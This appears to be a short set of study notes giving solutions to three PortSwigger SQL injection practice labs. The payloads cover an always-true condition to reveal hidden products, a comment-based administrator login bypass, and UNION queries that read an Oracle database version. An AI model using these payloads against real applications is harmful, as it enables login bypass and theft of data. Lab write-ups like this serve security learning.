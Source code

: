 #### SQL injection

```https://portswigger.net/web-security/sql-injection/cheat-sheet```

## Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

## Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
## Lab3: SQL injection attack, querying the database type and version on Oracle
```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
